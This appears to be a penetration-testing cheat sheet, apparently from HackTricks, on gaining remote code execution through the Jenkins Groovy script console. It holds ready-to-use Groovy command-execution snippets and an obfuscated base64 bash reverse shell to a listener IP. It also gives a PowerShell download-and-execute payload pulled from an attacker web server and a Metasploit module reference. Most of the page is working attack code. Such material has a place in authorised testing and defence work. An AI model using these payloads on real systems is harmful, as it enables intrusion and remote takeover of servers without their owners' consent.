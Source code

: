 # Jenkins RCE with Groovy Script

{{#include ../../banners/hacktricks-training.md}}

## Jenkins RCE with Groovy Script

This is less noisy than creating a new project in Jenkins

1. Go to _path_jenkins/script_
2. Inside the text box introduce the script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

You could execute a command using: `cmd.exe /c dir`

In **linux** you can do: **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ (triple double quotes) to execute the payload.

**Another useful groovy script** is (replace \[INSERT COMMAND]):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in linux

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### Script

You can automate this process with [**this script**](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_admin_script.py).

You can use MSF to get a reverse shell:

```
msf> use exploit/multi/http/jenkins_script_console
```

{{#include ../../banners/hacktricks-training.md}}



